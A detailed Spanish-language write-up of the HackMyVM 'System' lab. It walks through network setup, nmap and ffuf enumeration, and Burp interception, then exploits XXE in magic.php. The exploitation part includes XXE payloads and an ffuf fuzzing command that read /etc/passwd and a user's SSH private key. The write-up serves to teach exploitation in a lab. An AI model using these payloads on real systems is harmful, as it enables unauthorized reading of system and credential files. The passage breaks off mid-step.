


# HackMyVM - System - Writeup detallado

> **Objetivo de este writeup**  
> Documentar **todo el proceso completo** de resolución de la máquina **System** de HackMyVM, con una explicación muy detallada de cada paso, de cada comando y de cada concepto importante.  
> La idea no es solo “hacer la máquina”, sino **entender por qué se hace cada cosa**, qué información aporta cada técnica y cómo se relacionan entre sí los distintos pasos del ataque.

---

## 1. Contexto inicial

La máquina en este caso es **System** de la plataforma **HackMyVM**.

Enlace de la máquina:

`https://hackmyvm.eu/machines/machine.php?vm=System`

La idea es levantarla en local, identificar su IP dentro de nuestra red, enumerar servicios y, a partir de ahí, avanzar hasta obtener acceso y completar la máquina.

---

## 2. Problema inicial al importar la máquina en VMware

Al intentar importar la máquina en **VMware**, aparece un error de compatibilidad del formato de importación.


El mensaje muestra una larga lista de errores como:

- `Unsupported element 'Caption'`
- `Unsupported element 'Description'`
- `Unsupported element 'InstanceID'`
- `Unsupported element 'ResourceType'`
- `Unsupported element 'VirtualQuantity'`
- `Missing child element 'InstanceID'`
- etc.

### ¿Qué significa este error?

Esto significa que el archivo de importación de la máquina virtual no está en un formato que **VMware Workstation** esté interpretando correctamente.

Normalmente esto pasa cuando:

- la máquina fue exportada desde otro hipervisor,
- el fichero OVF/OVA usa elementos XML que VMware no soporta bien,
- o el formato fue generado por una herramienta que no es plenamente compatible con VMware.

### Decisión práctica

Como la idea no es perder tiempo intentando reparar manualmente el OVF/OVA, optamos por una solución más rápida y estable:

- **abrir la máquina System con VirtualBox**,
- y mantener **Kali en VMware**.

Eso obliga a hacer que **ambas máquinas estén en la misma red**, aunque estén ejecutándose en hipervisores distintos.

---

## 3. Puesta en red entre VirtualBox y VMware

Como la víctima va a correr en **VirtualBox** y Kali en **VMware**, ambas tienen que poder verse.

Si cada una estuviese en una red virtual distinta:

- Kali no vería a la víctima,
- la víctima no vería a Kali,
- y no podríamos atacar la máquina.

La forma más sencilla de conseguir que se vean es poner **ambas en adaptador puente** contra la **misma interfaz física del host**.

---

## 4. Configuración de red en VirtualBox

Primero importamos la máquina **System** en VirtualBox.

Después:

- seleccionamos la máquina,
- vamos a **Configuración**,
- entramos en **Red**,
- en **Adaptador 1** elegimos **Conectar a: Adaptador puente**,
- y en **Nombre** seleccionamos la interfaz que aparece en la siguiente imagen.


### ¿Por qué elegimos esa interfaz exactamente?

En la imagen aparece seleccionada la tarjeta:

**MediaTek Wi‑Fi 6 MT7921 Wireless LAN Card**

La elegimos porque esa es la **interfaz física real** del equipo host con la que Windows está conectado a la red.

En otras palabras:

- el host Windows está conectado a la red doméstica por esa tarjeta Wi‑Fi,
- si el adaptador puente de VirtualBox se apoya sobre esa tarjeta,
- la máquina virtual podrá “salir” directamente a esa misma red.

### Qué hace realmente el modo “Adaptador puente”

Cuando una VM está en **modo puente**:

- no usa una red privada aislada del hipervisor,
- no usa NAT del hipervisor,
- sino que se comporta como **otro dispositivo más** dentro de la red física.

Eso implica que:

- la VM obtiene su propia IP dentro de la red real,
- aparece como otro host de la LAN,
- el router puede verla,
- y otros equipos de la red también pueden verla.

#### Idea mental útil

Piensa así:

- **NAT** = la máquina virtual sale “escondida” detrás del host.
- **Bridge/Puente** = la máquina virtual sale “con identidad propia” como si fuese otro equipo real conectado al Wi‑Fi o al cable.

Eso es justo lo que nos interesa aquí, porque queremos que **Kali y la víctima estén en la misma red real**.

---

## 5. Configuración de red en VMware para Kali

Ahora hay que hacer que **Kali en VMware** también quede en esa misma red física.

### Paso 1: Editor de red virtual

En VMware seleccionamos la Kali y vamos a:

- **Editar**
- **Editor de red virtual**
- en la información de **VMnet**
- elegimos **En puente**
- y seleccionamos exactamente la **misma interfaz física** que en VirtualBox.


### ¿Por qué tiene que ser exactamente la misma interfaz?

Porque si:

- VirtualBox usa como puente la Wi‑Fi real,
- pero VMware usa otra interfaz distinta,

entonces cada hipervisor podría estar “enganchando” la VM a una red distinta o a un comportamiento distinto.

Y eso puede provocar:

- que las máquinas no se vean,
- que una esté en una subred y otra en otra,
- o que una ni siquiera reciba IP válida.

Por eso aquí la regla es simple:

> **VirtualBox y VMware deben puentear contra la misma interfaz física del host.**

---

## 6. Configuración final del adaptador en la Kali

Ahora, dentro de la configuración de la propia máquina Kali en VMware, hacemos:

- click derecho sobre la Kali,
- **Configuración**,
- **Adaptador de red**,
- **Conexión de red**,
- y marcamos **Conexión en puente**.


### Qué hace este último ajuste

Una cosa es configurar el **VMnet** general del hipervisor.

Otra cosa es decirle a **esa máquina concreta** que use:

- NAT,
- Host-only,
- o Bridge.

Aquí le estamos diciendo explícitamente a Kali:

> “Quiero que esta máquina salga en modo puente”.

---

## 7. Cambio de IP en Kali tras pasar a puente

Después de hacer esto, Kali se desconecta un instante de la red anterior y vuelve a negociar conectividad con la red física real.

Cuando hacemos `ip a`, vemos que ahora tiene una IP del rango real de la red.


En este caso se observa:

`inet 192.168.1.42/24`

### ¿Qué significa eso?

- `192.168.1.42` es la IP que ha recibido Kali.
- `/24` indica la máscara de red equivalente a `255.255.255.0`.

Eso quiere decir que Kali ahora pertenece a la red:

`192.168.1.0/24`

Y eso encaja con una LAN doméstica típica.

---

## 8. Preparación del directorio de trabajo

Ahora que la red ya está bien configurada, encendemos ambas máquinas y nos preparamos una carpeta local de trabajo en Kali.

```bash
cd ~/Desktop
cd HackMyVM
mkdir System
cd System
```

Quedamos situados en:

```bash
~/Desktop/HackMyVM/System
```

Esto es importante para mantener todo ordenado:

- escaneos,
- notas,
- ficheros descargados,
- claves,
- resultados de herramientas, etc.

---

## 9. Descubrimiento de la IP de la víctima

Como la máquina víctima ha arrancado en modo puente, tendrá una IP dentro de la misma red física.

Ahora necesitamos localizarla.

Para ello usamos un escaneo de descubrimiento con Nmap:

```bash
sudo nmap -n -sn 192.168.1.42/24
```

### Explicación detallada de las flags

#### `sudo`
Se usa porque algunos tipos de escaneo de red y de descubrimiento de hosts requieren privilegios elevados.

#### `nmap`
Es la herramienta de escaneo de red que usamos para descubrir hosts y puertos.

#### `-n`
Le dice a Nmap que **no resuelva DNS**.

Es decir:

- no intenta traducir IPs a nombres de dominio,
- no hace consultas DNS innecesarias,
- el escaneo es más rápido,
- y genera menos ruido.

#### `-sn`
Significa **Ping Scan** o descubrimiento de hosts sin escaneo de puertos.

En la práctica:

- Nmap no intenta enumerar puertos,
- solo intenta averiguar qué hosts están vivos.

Antes esta opción se conocía como `-sP`.

#### `192.168.1.42/24`
Es el rango que escaneamos.

Al poner `/24`, realmente Nmap entiende toda la red:

`192.168.1.0 - 192.168.1.255`

### Resultado del escaneo

```bash
sudo nmap -n -sn 192.168.1.42/24
```

Salida observada:

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 05:55 EDT
Nmap scan report for 192.168.1.1
Host is up (0.0072s latency).
MAC Address: DC:08:DA:84:39:30 (Unknown)

Nmap scan report for 192.168.1.33
Host is up (0.00015s latency).
MAC Address: 48:E7:DA:42:B4:AD (AzureWave Technology)

Nmap scan report for 192.168.1.34
Host is up (0.32s latency).
MAC Address: 6A:88:E4:FB:4A:51 (Unknown)

Nmap scan report for 192.168.1.43
Host is up (0.00014s latency).
MAC Address: 08:00:27:A0:AF:EF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.1.90
Host is up (0.033s latency).
MAC Address: 44:3B:14:F0:E3:A8 (Unknown)

Nmap scan report for 192.168.1.200
Host is up (0.28s latency).
MAC Address: A4:43:8C:A3:71:3F (Arris Group)

Nmap scan report for 192.168.1.42
Host is up.
Nmap done: 256 IP addresses (7 hosts up) scanned in 5.44 seconds
```

---

## 10. Cómo interpretar el descubrimiento de hosts

Aquí aparecen muchas IPs porque **ya no estamos en una red privada aislada del hipervisor**.

Ahora estamos en **adaptador puente**, así que al escanear vemos todos los dispositivos vivos en la red física.

Por eso aparecen, por ejemplo:

- el router,
- dispositivos domésticos,
- el propio host,
- la Kali,
- y la víctima.

### ¿Cómo identificar a la máquina víctima?

La pista clave es la **MAC Address** y el fabricante que Nmap nos da.

La línea decisiva es esta:

```text
Nmap scan report for 192.168.1.43
Host is up (0.00014s latency).
MAC Address: 08:00:27:A0:AF:EF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

### ¿Por qué eso indica que es la víctima?

Porque el prefijo de MAC:

`08:00:27`

corresponde a **Oracle VirtualBox**.

Eso significa que ese host es una máquina virtual cuya tarjeta de red fue generada por VirtualBox.

Y como precisamente la víctima **System** es la máquina que arrancamos en VirtualBox, esa IP encaja exactamente con ella.

---

## 11. Explicación del OUI de la MAC

Los primeros bytes de una MAC forman el llamado:

**OUI (Organizationally Unique Identifier)**

Es el identificador reservado a cada fabricante.

Los primeros 3 bytes de la MAC permiten saber quién fabricó la tarjeta o el adaptador virtual.

### Ejemplos útiles

| Prefijo MAC | Fabricante |
|---|---|
| 08:00:27 | VirtualBox |
| 00:0C:29 | VMware |
| 48:E7:DA | AzureWave |
| A4:43:8C | Arris |

Por eso Nmap puede mostrar cosas como:

- `Oracle VirtualBox virtual NIC`
- `VMware`
- `AzureWave`
- etc.

### Conclusión de esta fase

La máquina víctima es:

**192.168.1.43**

porque:

- fue levantada en VirtualBox,
- aparece con MAC de VirtualBox,
- y está en la misma red que Kali.

---

## 12. Resumen rápido de los hosts detectados

Podemos interpretar la red así:

| IP | Dispositivo probable |
|---|---|
| 192.168.1.1 | router |
| 192.168.1.33 | dispositivo con hardware AzureWave |
| 192.168.1.34 | otro dispositivo doméstico |
| 192.168.1.43 | **víctima System en VirtualBox** |
| 192.168.1.90 | otro dispositivo |
| 192.168.1.200 | equipo Arris / router del ISP |
| 192.168.1.42 | Kali |

---

## 13. Escaneo completo de puertos y servicios

Ya identificada la víctima, pasamos al escaneo de puertos:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.43
```

### Explicación detallada de las flags

#### `sudo`
Necesario para ciertos tipos de escaneo y para obtener resultados más fiables.

#### `-p-`
Escanea **todos los puertos TCP** del 1 al 65535.

Esto es importante porque si solo escaneamos los 1000 puertos más comunes, podríamos perdernos servicios interesantes que escuchen en puertos menos habituales.

#### `--open`
Hace que Nmap muestre solo los puertos abiertos.

Así la salida es mucho más limpia.

#### `-sC`
Ejecuta los **scripts por defecto de NSE** (Nmap Scripting Engine).

Sirve para obtener información adicional del servicio:

- títulos web,
- banners,
- configuraciones,
- datos de protocolo,
- fingerprints útiles.

#### `-sV`
Activa la detección de versión de servicios.

Nmap intenta averiguar no solo qué protocolo hay detrás, sino también **qué software exacto** y en qué versión.

#### `-Pn`
Le dice a Nmap que trate el host como activo sin hacer la fase previa de descubrimiento por ping.

Esto es útil cuando:

- un host bloquea ICMP,
- o el descubrimiento previo podría fallar aunque realmente esté encendido.

#### `-T5`
Aumenta mucho la velocidad del escaneo.

Es la plantilla temporal más agresiva.

Ventaja:

- escaneo más rápido.

Inconveniente:

- genera más ruido,
- puede ser menos estable,
- y no siempre conviene en entornos reales.

En un laboratorio local suele ser aceptable.

#### `-vvv`
Aumenta bastante la verbosidad.

Permite ver más detalle del progreso del escaneo y de lo que Nmap va haciendo.

#### `-oN fullscan`
Guarda la salida en formato normal en un archivo llamado `fullscan`.

Eso es muy útil para:

- revisar resultados después,
- no perder información,
- y documentar el proceso.

---

## 14. Resultado del escaneo de puertos

La salida relevante es:

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## 15. Primera interpretación general del escaneo

Esto sugiere una máquina con este perfil:

- sistema operativo **Linux**,
- muy probablemente **Debian** o derivado,
- con acceso remoto por **SSH**,
- y una web servida por **nginx**.

Además, la superficie de ataque inicial es pequeña:

- puerto 22
- puerto 80

No hay muchos servicios abiertos de entrada, lo que suele indicar una máquina relativamente contenida.

---

## 16. Análisis detallado del puerto 22 - SSH

```text
22/tcp open  ssh  OpenSSH 8.4p1 Debian 5 (protocol 2.0)
```

### Qué es SSH

**SSH** significa **Secure Shell**.

Es el protocolo estándar para administración remota segura en sistemas Linux y Unix.

### Para qué sirve SSH

Permite:

- iniciar sesión remotamente,
- ejecutar comandos,
- transferir archivos,
- copiar ficheros entre equipos,
- tunelizar conexiones,
- administrar el sistema a distancia.

### Por qué es importante verlo abierto

Cuando el puerto 22 está abierto, normalmente pensamos:

> “Esta máquina permite acceso remoto por consola a usuarios válidos.”

Eso no implica que podamos entrar ya, pero sí nos dice que si conseguimos:

- un usuario,
- una contraseña,
- o una clave privada válida,

podríamos obtener shell remota por SSH.

### Qué es OpenSSH

**OpenSSH** es la implementación más común de SSH en Linux.

La versión detectada es:

**OpenSSH 8.4p1 Debian 5**

Eso aporta contexto porque:

- nos dice qué software concreto corre,
- nos sugiere que el sistema es Debian o derivado,
- y nos permite valorar si existen CVEs conocidos de esa versión.

### Qué significa `protocol 2.0`

SSH tiene distintas versiones de protocolo.

La versión moderna y segura es **SSH-2**.

Eso es completamente normal.

SSH-1 sería antiguo e inseguro.

### TTL 64

El TTL observado es 64, lo cual es muy típico en Linux.

No es una prueba absoluta, pero encaja perfectamente con la huella general del sistema.

---

## 17. Análisis detallado del puerto 80 - HTTP

```text
80/tcp open  http  nginx 1.18.0
```

### Qué es HTTP

**HTTP** es el protocolo web sin cifrar.

El puerto 80 es el estándar para servir páginas web en texto claro.

### Qué significa ver este puerto abierto

Normalmente implica que la máquina expone:

- una web,
- una aplicación web,
- una interfaz de registro o login,
- un panel,
- o una API.

En pentesting, el puerto 80 suele ser uno de los puntos de entrada más importantes.

### Qué es nginx

**nginx** es un servidor web muy usado.

Se utiliza para:

- servir páginas estáticas,
- hacer de proxy inverso,
- balancear carga,
- publicar aplicaciones PHP/Python/Node,
- redirigir tráfico a otros servicios internos.

Es extremadamente común en sistemas Linux.

### Qué indica la versión

La versión es:

**nginx 1.18.0**

Eso puede ayudar a:

- buscar vulnerabilidades conocidas,
- entender la pila de software,
- y hacerse una idea de la antigüedad del sistema.

Pero, muy importante:

> ver una versión no significa automáticamente que exista un exploit viable.

---

## 18. Información de sistema detectada por Nmap

```text
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Qué significa esto

Nmap, por banners y fingerprints, deduce que el sistema es:

- **Linux**

Eso encaja totalmente con:

- OpenSSH,
- nginx,
- TTL 64,
- y el comportamiento general del host.

---

## 19. Conclusión de la enumeración de puertos

Hasta aquí, la lectura correcta del escaneo es:

- estamos ante una **máquina Linux**,
- con una **superficie reducida**,
- donde los servicios iniciales de interés son:
  - **SSH (22)** para posible acceso remoto posterior,
  - **HTTP (80)** como vector principal de entrada inicial.

En otras palabras:

> **la web será probablemente el primer punto de ataque**, y SSH quedará como vía de acceso si más adelante conseguimos credenciales o claves válidas.

---

## 20. Primera visita a la web

Abrimos en el navegador:

`http://192.168.1.43/`

y encontramos un panel de registro.


### Qué observamos de primeras

La aplicación presenta:

- un campo de email,
- un campo de password,
- un botón de registro.

La estética es sencilla y no revela demasiado de entrada.

---

## 21. Primera interacción manual con el panel

Probamos combinaciones simples como:

- `admin / admin`
- `test / test`
- `user / user`
- cadenas aleatorias

y el mensaje devuelto es siempre del estilo:

> `admin is already registered!`

o el mismo comportamiento equivalente.

### Qué nos dice eso

Esto nos da una pista importante:

- el panel **no valida de forma clara** si el usuario existe o no,
- no diferencia correctamente entradas válidas de inválidas,
- y parece responder con un mensaje genérico.

Eso sugiere que:

- la aplicación no está haciendo un proceso de registro normal,
- o su lógica es muy pobre,
- o el mensaje está construido de forma poco robusta.

Todavía no es una vulnerabilidad por sí sola, pero sí una pista.

---

## 22. Revisión del código fuente

Hacemos:

**Ctrl + U**

para ver el HTML fuente.

No encontramos nada especialmente útil a simple vista.

---

## 23. Uso de Wappalyzer

También usamos Wappalyzer para obtener algo de contexto tecnológico.



La información detectada es bastante escasa, básicamente:

- **nginx**
- **jQuery**

### Qué significa eso

No es mucha información, pero al menos confirma:

- servidor web nginx
- uso de JavaScript con jQuery en frontend

Eso encaja con lo que ya sabíamos.

---

## 24. Fuzzing de rutas web con ffuf

Como el panel principal no da demasiado juego a primera vista, pasamos a enumeración de contenido web.

Usamos:

```bash
ffuf -u http://192.168.1.43/FUZZ -c -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100
```

### Explicación detallada de las flags

#### `ffuf`
Herramienta de fuzzing web muy rápida para descubrir:

- directorios,
- archivos,
- parámetros,
- virtual hosts,
- recursos ocultos.

#### `-u http://192.168.1.43/FUZZ`
La URL objetivo.

`FUZZ` es el marcador que ffuf reemplazará por cada palabra del diccionario.

Ejemplo:

- `http://192.168.1.43/admin`
- `http://192.168.1.43/login`
- `http://192.168.1.43/js`
- etc.

#### `-c`
Activa salida en color.

No cambia el ataque, solo hace la salida más legible visualmente.

#### `-w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt`
El diccionario que se usará para el fuzzing.

Contiene nombres de rutas web comunes:

- admin
- js
- images
- backup
- login
- uploads
- etc.

#### `-t 100`
Número de hilos concurrentes.

Aquí le decimos a ffuf que lance 100 peticiones en paralelo.

Ventaja:

- va mucho más rápido.

Inconveniente:

- genera más ruido.

En laboratorio está bien; en un entorno real hay que medirlo más.

### Resultado

Encontramos esto:

```text
js  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 4ms]
```

Eso indica que existe la ruta `/js`.

---

## 25. Visita a la ruta descubierta `/js/`

Probamos en el navegador:

`http://192.168.1.43/js/`

y obtenemos:

**403 Forbidden**

### Qué significa 403 Forbidden

Un código **403** significa:

- el recurso existe,
- pero el servidor deniega el acceso.

Eso es importante, porque no es lo mismo que:

- **404 Not Found** → no existe,
- que **403 Forbidden** → sí existe, pero no te dejan entrar.

Por tanto:

> la ruta `/js/` existe en el servidor y está protegida o restringida.

---

## 26. Activación del proxy con Burp Suite

A continuación queremos ver cómo se comporta realmente la aplicación por detrás.

Para eso activamos el proxy de Burp con FoxyProxy.



Abrimos **Burp Suite** y ponemos:

- **Intercept = ON**

Ahora cualquier petición del navegador pasará primero por Burp.

---

## 27. Captura de la petición de registro

En el panel web introducimos valores de prueba:

- email: `aaaaa`
- password: `aaaaa`

y pulsamos **Register**.

Burp captura la petición y vemos que la aplicación realmente está enviando esto:

```http
POST /magic.php HTTP/1.1
Host: 192.168.1.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 103
Origin: http://192.168.1.43
Connection: keep-alive
Referer: http://192.168.1.43/
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?><details><email>aaaaa</email><password>aaaaa</password></details>
```

Luego hacemos:

- click derecho
- **Send to Repeater**

y desactivamos el intercept.

---

## 28. Explicación de la petición capturada

Esta petición es muy importante porque revela **cómo está enviando la aplicación los datos**.

### Qué vemos aquí que llama la atención

No está enviando algo típico como:

```text
username=aaaaa&password=aaaaa
```

Ni tampoco JSON como:

```json
{"username":"aaaaa","password":"aaaaa"}
```

Lo que está enviando es **XML**.

### Qué es XML

**XML (eXtensible Markup Language)** es un lenguaje de marcado para estructurar datos.

Permite representar información en forma de etiquetas.

Ejemplo:

```xml
<details>
  <email>aaaaa</email>
  <password>aaaaa</password>
</details>
```

Es legible tanto para humanos como para aplicaciones.

### Por qué esto importa mucho

Porque existe una vulnerabilidad clásica asociada al procesamiento inseguro de XML:

## XXE - XML External Entity Injection

---

## 29. Explicación conceptual de XXE

**XXE** significa:

**XML External Entity**

Es una vulnerabilidad que ocurre cuando una aplicación procesa XML y permite que el atacante defina **entidades externas**.

### Qué es una entidad en XML

Una entidad funciona como una especie de variable.

Por ejemplo:

```xml
<!ENTITY nombre "carlos">
```

Luego puede usarse así:

```xml
<user>&nombre;</user>
```

y el parser lo sustituye por:

```xml
<user>carlos</user>
```

### Qué hace peligrosa a XXE

XML también permite entidades externas del tipo:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Eso significa:

> “Parser XML, ve al sistema y léeme este archivo.”

Si el parser XML está mal configurado y acepta eso, entonces el servidor puede terminar leyendo archivos locales y devolviendo su contenido.

### Flujo interno de la vulnerabilidad

1. La aplicación recibe XML.
2. Lo pasa a un parser XML.
3. El parser ve una entidad externa.
4. El parser intenta resolverla.
5. Carga el recurso indicado.
6. Sustituye la entidad por su contenido.
7. Ese contenido termina apareciendo en la respuesta.

### Idea clave

La aplicación no solo está aceptando datos.

También está dejando que el atacante meta “instrucciones” para que el parser lea recursos del sistema.

---

## 30. Búsqueda de payloads para XXE

Para construir un payload fiable, una referencia muy útil es:

**PayloadsAllTheThings**

Enlace:

`https://swisskyrepo.github.io/PayloadsAllTheThings/`

Es un recurso muy importante porque recopila:

- payloads,
- técnicas,
- variantes,
- y ejemplos de explotación

para muchísimas vulnerabilidades.

En este caso nos interesa la sección de **XXE Injection**.

---

## 31. Primer payload XXE para leer `/etc/passwd`

Construimos la petición así:

```http
POST /magic.php HTTP/1.1
Host: 192.168.1.43
Content-Type: text/plain;charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<details><email>&xxe;</email><password>aaaaa</password></details>
```

### Explicación detallada del payload

#### `<?xml version="1.0" encoding="UTF-8"?>`
Cabecera XML estándar.

#### `<!DOCTYPE foo [...]>`
Aquí declaramos un **DOCTYPE**.

El DOCTYPE sirve para definir el tipo de documento y las entidades permitidas.

El nombre `foo` da igual; puede ser prácticamente cualquiera.

#### `<!ENTITY xxe SYSTEM 'file:///etc/passwd'>`
Estamos declarando una entidad llamada `xxe` que apunta a un recurso del sistema:

`file:///etc/passwd`

#### `<email>&xxe;</email>`
Aquí es donde invocamos la entidad.

El parser sustituirá `&xxe;` por el contenido del archivo.

---

## 32. Resultado de la lectura de `/etc/passwd`

La respuesta devuelve contenido del archivo:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
david:x:1000:1000::/home/david:/bin/bash
 is already registered!
```

### Qué significa esto

Hemos confirmado dos cosas fundamentales:

1. **La web es vulnerable a XXE.**
2. Podemos leer archivos locales del sistema.

### Qué nos aporta `/etc/passwd`

Nos permite identificar usuarios del sistema.

Y aquí aparece uno especialmente interesante:

`david:x:1000:1000::/home/david:/bin/bash`

Eso nos dice que existe un usuario real del sistema llamado **david** con shell válida.

---

## 33. Intento de leer la clave privada SSH de David

Como sabemos que existe David, probamos a leer su clave privada SSH:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///home/david/.ssh/id_rsa'>]>
<details><email>&xxe;</email><password>aaaaa</password></details>
```

La aplicación nos devuelve la clave privada.

Eso es muy grave, porque una clave privada SSH es información extremadamente sensible.

---

## 34. Guardado de la clave privada en Kali

Copiamos la clave obtenida y la guardamos en un archivo local:

```bash
nano id_rsa-david
```

Después ajustamos permisos:

```bash
chmod 600 id_rsa-david
```

### Qué significa `chmod 600`

Los permisos `600` equivalen a:

- propietario: lectura y escritura
- grupo: sin permisos
- otros: sin permisos

En forma simbólica:

`rw-------`

### Por qué esto es importante

SSH exige que una clave privada tenga permisos restrictivos.

Si el archivo es demasiado permisivo, el cliente SSH puede negarse a usarlo por seguridad.

---

## 35. Intento de conexión SSH con la clave privada

Probamos:

```bash
ssh -i id_rsa-david david@192.168.1.43
```

### Explicación de las flags

#### `ssh`
Cliente SSH.

#### `-i id_rsa-david`
Le dice a SSH que use ese archivo como identidad o clave privada.

#### `david@192.168.1.43`
Nos intentamos conectar como usuario `david` a la IP de la víctima.

### Resultado

La conexión responde:

```text
Load key "id_rsa-david": error in libcrypto
david@192.168.1.43's password:
```

### Interpretación

Independientemente de que la clave parezca correcta o no, el resultado práctico es que:

- no nos permite autenticarnos con clave,
- y termina pidiendo password.

Eso significa que no tenemos todavía acceso SSH útil con esa vía.

Por tanto, hay que cambiar de enfoque.

---

## 36. Cambio de enfoque: enumeración automática del home de David

Ya que la lectura manual de archivos puede ser lenta y dar palos de ciego, lo mejor es automatizar la búsqueda de rutas útiles dentro del home de David.

La idea es hacer fuzzing del XML vulnerable.

En lugar de probar a mano archivos uno por uno, vamos a automatizar el proceso con **ffuf**.

---

## 37. Fuzzing XXE con ffuf sobre la ruta `/home/david/`

Usamos:

```bash
ffuf -u http://192.168.1.43/magic.php -c -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -X POST -H "Content-Type: text/plain;charset=UTF-8" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/david/FUZZ">]><details><email>&xxe;</email><password>aaaaa</password></details>' --fs 85
```

### Explicación detallada de las flags

#### `-u http://192.168.1.43/magic.php`
Atacamos la URL exacta a la que la web envía el XML vulnerable.

Esto lo sabemos porque la petición capturada en Burp iba a:

`POST /magic.php`

#### `-c`
Salida en color.

#### `-w /usr/share/seclists/Discovery/Web-Content/quickhits.txt`
Usamos un diccionario con nombres de archivos y rutas típicas.

Aquí nos interesa especialmente porque queremos descubrir qué archivos existen dentro de `/home/david/`.

#### `-X POST`
Forzamos que la petición sea de tipo **POST**, porque el servidor espera ese método.

#### `-H "Content-Type: text/plain;charset=UTF-8"`
Reproducimos la cabecera real de la petición capturada en Burp.

Esto es importante porque queremos que el servidor interprete la solicitud exactamente igual que la web original.

#### `-d '...'`
Le pasamos el cuerpo completo de la petición.

Dentro de ese cuerpo va el XML vulnerable.

#### `FUZZ`
Es el punto exacto donde ffuf sustituirá cada palabra del diccionario.

Es decir, irá probando cosas como:

- `.profile`
- `.viminfo`
- `.ssh/id_rsa`
- etc.

#### `--fs 85`
Filtra respuestas por tamaño.

Aquí le estamos diciendo a ffuf:

> “Ignora todas las respuestas cuyo tamaño sea 85.”

### ¿Por qué 85?

Porque observamos que cuando ponemos una ruta inválida, la respuesta siempre tiene tamaño 85.

Por tanto:

- tamaño 85 = no interesante
- tamaño distinto = potencialmente hay contenido real

### Nota importante sobre las comillas dobles

En el payload usamos:

```xml
SYSTEM "file:///home/david/FUZZ"
```

y no comillas simples.

La razón práctica es que con dobles comillas el cuerpo de la petición fue interpretado correctamente por ffuf y por el shell, evitando problemas de parseo.

---

## 38. Resultados del fuzzing XXE

Los resultados interesantes son:

```text
.profile                [Status: 200, Size: 892, Words: 138, Lines: 28, Duration: 15ms]
.ssh/id_rsa             [Status: 200, Size: 2687, Words: 17, Lines: 39, Duration: 16ms]
.ssh/id_rsa.pub         [Status: 200, Size: 653, Words: 13, Lines: 2, Duration: 17ms]
.viminfo                [Status: 200, Size: 786, Words: 90, Lines: 39, Duration: 14ms]
```

### Qué significa esto

Hemos conseguido automatizar la enumeración del home de David y localizar archivos reales.

Esto es muy potente porque confirma la existencia de:

- `.profile`
- `.ssh/id_rsa`
- `.ssh/id_rsa.pub`
- `.viminfo`

---

## 39. Revisión manual de `.profile` y `.viminfo`

Volvemos a Burp y probamos primero con `.profile`.

No aporta nada útil.

Luego probamos con `.viminfo`:

```xml
